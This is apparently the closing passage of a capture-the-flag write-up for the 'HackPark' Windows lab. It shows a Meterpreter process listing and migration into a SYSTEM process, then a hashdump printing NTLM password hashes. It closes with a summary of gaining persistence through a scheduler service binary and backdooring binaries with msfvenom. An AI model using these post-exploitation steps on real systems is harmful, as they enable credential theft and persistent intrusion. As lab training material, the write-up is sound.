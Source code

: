 ```powershell
 1356  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1372  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1388  672   WService.exe          x86   0        NT AUTHORITY\SYSTEM           C:\PROGRA~2\SYSTEM~1\WService.exe
 1548  1388  WScheduler.exe        x86   0        NT AUTHORITY\SYSTEM           C:\PROGRA~2\SYSTEM~1\WScheduler.exe
 1652  672   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1740  740   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 1756  672   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1988  672   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2412  1200  WScheduler.exe        x86   1        HACKPARK\Administrator        C:\Program Files (x86)\SystemScheduler\WScheduler.exe
 2536  2412  Message.exe           x86   1        HACKPARK\Administrator        C:\PROGRA~2\SYSTEM~1\Message.exe
 2588  904   taskhostex.exe        x64   1        HACKPARK\Administrator        C:\Windows\System32\taskhostex.exe
 2664  2656  explorer.exe          x64   1        HACKPARK\Administrator        C:\Windows\explorer.exe
 3064  2612  ServerManager.exe     x64   1        HACKPARK\Administrator        C:\Windows\System32\ServerManager.exe

meterpreter > migrate 1756
[*] Migration completed successfully.
```

Finally I dumped the credential hashes for a fun flag.

```powershell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3352c0731470aabf133e0c84276adcba:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jeff:1001:aad3b435b51404eeaad3b435b51404ee:e7dd0bd78b1d5d7eea4ee746816e2377:::
```

## Summary

This host was interesting solely due to the potential that Scheduler service provided. By functioning like cron I was able to trigger a connection attempt at a 30 second interval giving me persistence for as long as that job was running the same binary. One thing I could have tried to do further was leverage templating in msfvenom to persist the binary with a backdoor added. All in all this was a fun way for me to continue experimenting with windows hosts.
